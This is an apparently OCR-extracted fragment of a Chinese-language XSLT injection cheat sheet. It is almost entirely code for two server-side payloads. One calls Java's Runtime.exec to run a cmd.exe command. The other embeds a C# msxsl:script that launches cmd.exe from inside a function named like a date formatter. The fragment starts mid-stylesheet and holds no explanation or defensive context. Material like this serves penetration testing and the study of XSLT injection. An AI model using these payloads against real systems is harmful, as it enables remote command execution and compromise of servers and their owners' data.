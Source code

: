 ```xml
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```
	使用本机 .NET 远程执行代码
```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
  </xsl:stylesheet>
```